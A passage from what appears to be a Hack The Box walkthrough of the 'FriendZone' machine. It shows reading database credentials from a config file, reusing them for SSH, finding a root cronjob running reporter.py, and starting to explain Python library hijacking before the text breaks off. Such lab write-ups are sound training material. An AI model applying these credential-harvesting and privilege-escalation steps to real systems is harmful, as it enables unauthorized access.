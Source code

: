 	www-data@FriendZone:/var/www$ cat mysql_data.conf 
	for development process this is the mysql creds for user friend
	
	db_user=friend
	
	db_pass=Agpyu12!0.213$
	
	db_name=FZ
	www-data@FriendZone:/var/www$ 
	```
	- `friend:Agpyu12!0.213$`
2. SSH w/ `friend:Agpyu12!0.213$`
	```
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot]
	└─# sshpass -p 'Agpyu12!0.213$' ssh friend@friendzone.htb
	```
	![](Pasted%20image%2020220911184320.png)


## Root - Via Python Library Hijacking
1. Found something interesting w/ `linpeas.sh`
	![](Pasted%20image%2020220911203348.png)
	- `server_admin`
2. View files in `server_admin` directory
	```
	friend@FriendZone:/tmp$ ls -la /opt/server_admin/
	total 12
	drwxr-xr-x 2 root root 4096 Jan 24  2019 .
	drwxr-xr-x 3 root root 4096 Oct  6  2018 ..
	-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
	```
	- There should be a cronjob executing `reporter.py`
3. Verify that there is a cronjob running w/ `pspy64`
	![](Pasted%20image%2020220911222349.png)
	- There is a cronjob executing `/opt/server_admin/reporter.py` as `root` every 2 minutes
4. View contents of `/opt/server_admin/reporter.py`
	```
	friend@FriendZone:/tmp$ cat /opt/server_admin/reporter.py
	#!/usr/bin/python
	
	import os
	
	to_address = "admin1@friendzone.com"
	from_address = "admin2@friendzone.com"
	
	print "[+] Trying to send email to %s"%to_address
	
	#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
	
	#os.system(command)
	
	# I need to edit the script later
	# Sam ~ python developer
	```
	- We can potentially do `python` library hijacking
5.  Exploiting `reporter.py`
	- How do we exploit `reporter.py`
		- Python code in one [module](https://docs.python.org/3/glossary.html#term-module) gains access to the code in another module by the process of [importing](https://docs.python.org/3/glossary.html#term-importing) it.